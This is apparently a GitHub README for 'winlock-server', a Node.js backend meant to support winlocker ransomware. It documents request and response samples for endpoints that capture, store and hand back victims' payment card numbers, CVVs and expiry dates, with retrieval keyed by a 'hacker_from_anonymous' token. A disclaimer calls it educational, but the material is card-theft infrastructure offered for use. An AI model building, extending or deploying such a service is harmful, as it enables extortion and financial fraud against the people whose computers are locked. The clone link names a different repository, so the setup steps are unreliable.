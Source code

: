 <br>
<h1 align="center">winlock-server</h1>
<div align="center">
  
<br>

[![Badge](https://img.shields.io/badge/Uses-Node.js-green.svg?style=flat-square)](1)
[![Badge](https://img.shields.io/badge/Open-Source-important.svg?style=flat-square)](1)
[![Badge](https://img.shields.io/badge/Made_with-Love-ff69b4.svg?style=flat-square)](1)
    
<br>

</div>

## Installation:
-   Install [Node.js](https://nodejs.org/en/),
-   Clone this repo: `git clone https://github.com/Ythosa/whynote`,
-   Install dependences by writing in console: `npm install`,
-   Write in console: `npm start`.

<br>

## Description:
-    Opensource Server on `Node.js` for Winlock Development Practice;
-    Designed for educational purposes only, the author is not responsible for how you use it;
-    The `winlock-server` can:
     *  check the card data entered by the user;
     *  save card data entered by the user;    
     *  return card data entered by the user.

<br>

## Documentation: 

### Http request to check the map and save it to the database:

~-~ Request sample:

``` javascript
var raw = JSON.stringify({
  "digits":"4111111111111111",
  "cvv":"111",
  "date":"M/YY",
  "owner":"Sername Name"
});

var requestOptions = {
  method: 'POST',
  headers: myHeaders,
  body: raw,
  redirect: 'follow'
};

fetch("http://localhost:3000/card", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
  
  ```
  
~-~ Response sample: 

```javascript
{
    "ok": true,
    "message": "Successful! Download our winlocker again!"
}
```

### Http request to get cards from BD:

~-~ Request sample:

```javascript 
var raw = JSON.stringify({"token":"hacker_from_anonymous"});

var requestOptions = {
  method: 'POST',
  headers: myHeaders,
  body: raw,
  redirect: 'follow'
};

fetch("http://localhost:3000/get_cards", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
```

~-~ Response sample:

```
[
{
"digits": "4111111111111111",
"cvv": "111",
"date": "M/YY",
"owner": "SERNAME NAME",
"card_details_error": null
}
]
```

### Http request to get server information:

~-~ Request sample:

```javascript
var requestOptions = {
  method: 'GET',
  redirect: 'follow'
};

fetch("http://localhost:3000/", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
```

~-~ Response sample:

```html
<!DOCTYPE html>
<html>

<head>
	<title>Winlock API Say BB ur PC bruh xd</title>
	<link rel="stylesheet" href="/stylesheets/style.css">
</head>

<body>
	<h1>Winlock API Say BB ur PC bruh xd</h1>
	<p>Welcome to Winlock API Say BB ur PC bruh xd</p>
</body>

</html>
```
